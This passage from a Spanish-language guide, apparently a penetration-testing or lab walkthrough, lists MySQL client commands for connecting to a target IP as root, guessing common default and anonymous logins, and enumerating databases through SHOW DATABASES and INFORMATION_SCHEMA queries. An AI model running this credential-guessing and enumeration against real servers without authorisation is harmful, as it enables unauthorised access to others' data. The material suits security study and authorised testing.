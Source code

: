 **Conexión forzando SSL:**
```bash
mysql -h <IP_objetivo> -u root -p --ssl-mode=REQUIRED
```

**Conexión deshabilitando SSL:**
```bash
mysql -h <IP_objetivo> -u root -p --ssl-mode=DISABLED
```

### 2.2 Usuarios Alternativos a Probar

```bash
# Usuarios comunes por defecto
mysql -h <IP_objetivo> -u admin -p
mysql -h <IP_objetivo> -u mysql -p
mysql -h <IP_objetivo> -u test -p
mysql -h <IP_objetivo> -u guest -p
mysql -h <IP_objetivo> -u user -p

# Sin usuario (conexión anónima)
mysql -h <IP_objetivo>
```

### 2.3 Verificación de Acceso Exitoso

**Estado de la conexión:**
```sql
SELECT CONNECTION_ID();
SELECT USER();
SELECT CURRENT_USER();
SELECT VERSION();
```

---

## 3. FASE DE ENUMERACIÓN DE BASES DE DATOS

### 3.1 Comando Principal
```sql
SHOW DATABASES;
```

### 3.2 Comandos Alternativos y Complementarios

**Información del esquema de información:**
```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

**Bases de datos con información adicional:**
```sql
SELECT 
    SCHEMA_NAME as 'Database',
    DEFAULT_CHARACTER_SET_NAME as 'Charset',
    DEFAULT_COLLATION_NAME as 'Collation'
FROM INFORMATION_SCHEMA.SCHEMATA;
```
